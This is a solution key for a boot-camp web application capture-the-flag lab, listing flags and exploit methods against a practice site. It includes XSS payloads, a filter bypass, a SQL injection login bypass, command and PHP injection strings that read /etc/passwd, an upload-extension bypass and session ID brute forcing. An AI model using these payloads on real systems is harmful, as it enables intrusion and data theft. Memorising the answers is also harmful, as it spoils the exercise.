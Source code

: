 ## Day 1 Solution File: Attacking the Web Application CTF

### Flag Solutions

#### Flag 1: f76sdfkg6sjf
- **Location:** `Welcome.php`
- **Vulnerability:** XSS reflected
- **Method/Payload to Exploit:** <script>alert("hi")</script>


#### Flag 2: ksdnd99dkas
- **Location:** `Memory-Planner.php` (first field)
- **Vulnerability:** XSS reflected (advanced)
- **Method/Payload to Exploit:** The input validation removes the word "script," so the word "script" needs to be split up in the payload&mdash;for example: `<SCRIPscriptT>alert("hi")</SCRIPscripTt>`

#### Flag 3: sd7fk1nctx
- **Location:** `comments.php`
- **Vulnerability:** XSS Stored
- **Method/Payload to Exploit:** <script>alert("hi")</script>

#### Flag 4: nckd97dk6sh2
- **Location:** `About-Rekall.php`
- **Vulnerability:** Sensitive data exposure
- **Method/Payload to Exploit:** The flag appears in the HTTP response headers. These headers can be seen using BURP or via a cURL request, such as:
   - `curl -v http://192.168.14.35/About-Rekall.php`

#### Flag 5: mmssdi73g
- **Location:** `Memory-Planner.php` (second field)
- **Vulnerability:** Local file inclusion
- **Method/Payload to Exploit:** Uploading any PHP file will provide the flag.


#### Flag 6: ld8skd62hdd
- **Location:** `Memory-Planner.php` (third field)
- **Vulnerability:** Local file inclusion (advanced)
- **Method/Payload to Exploit:** The input validation checks for the presence of `.jpg`, so to bypass this upload, name your malicious script with this name: `script.jpg.php`


#### Flag 7: bcs92sjsk233 
- **Location:** `Login.php` (first field)
- **Vulnerability:** SQL injection
- **Method/Payload to Exploit:**  In the password field, use the following payload: `ok' or 1=1-- `

#### Flag 8: 87fsdkf6djf
- **Location:** `Login.php` (second field)
- **Vulnerability:** Sensitive data exposure
- **Method/Payload to Exploit:** The username and password are in the HTML, or you can view them by highlighting the webpage.
  - Username: `dougquaid`
  - Password: `kuato`


#### Flag 9: dkkdudfkdy23
- **Location:** `robots.txt`
- **Vulnerability:** Sensitive data exposure
- **Method/Payload to Exploit:** Just access the webpage.


#### Flag 10: ksdnd99dkas 
- **Location:** `networking.php` (first field)
- **Vulnerability:** Command injection
- **Method/Payload to Exploit:**  `www.welcometorecall.com && cat vendors.txt` or `www.welcometorecall.com ; cat vendors.txt`


#### Flag 11: opshdkasy78s
- **Location:** `networking.php` (second field)
- **Vulnerability:** Command injection (advanced)
- **Method/Payload to Exploit:** Input validation strips "&" and ";", so the payload will need to be `www.welcometorecall.com | cat vendors.txt`

#### Flag 12: hsk23oncsd 
- **Location:** `Login.php` (second field)
- **Vulnerability:** Brute force attack
- **Method/Payload to Exploit:** Using the vulnerability in Flag 10 or 11 and viewing the `/etc/passwd` file, you'll see a user `melina`. This user has the same password: `melina`


#### Flag 13: jdka7sk23dd
- **Location:** `souvenirs.php`
- **Vulnerability:** PHP injection
- **Method/Payload to Exploit:** This hidden webpage was identified in the `robots.txt` file found in Flag 9. The payload to exploit this page is changing the URL to:
   - `http://192.168.13.35/souvenirs.php?message=""; system('cat /etc/passwd')` OR `http://192.168.13.35/souvenirs.php?message=%22%22;%20passthru(%27cat%20/etc/passwd%27)`


#### Flag 14: dks93jdlsd7dj 
- **Location:** `admin_legal_data.php`
- **Vulnerability:** Session management 
- **Method/Payload to Exploit:** The link to this page is provided when Flag 12 is acquired. To view the flag, you will need to test out different session IDs in the URL with Burp. (Intruder would be the most efficient.) **87** is the secret session ID that provides the flag (http://192.168.13.35/admin_legal_data.php?admin=87).


#### Flag 15: dksdf7sjd5sg
- **Location:** `Disclaimer.php`
- **Vulnerability:** Directory traversal
- **Method/Payload to Exploit:** The hint on this page indicates this is the "new" disclaimer. Using the vulnerability from Flag 10 or Flag 11, you can run `ls` to see the `old_disclaimers` directory. Using that finding, change the URL to: `http://192.168.13.35/disclaimer.php?page=old_disclaimers/disclaimer_1.txt`    
  - Note that the resource changed from `disclaimer_2.txt` to `disclaimer_1.txt`, as this is the older version.

---

© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.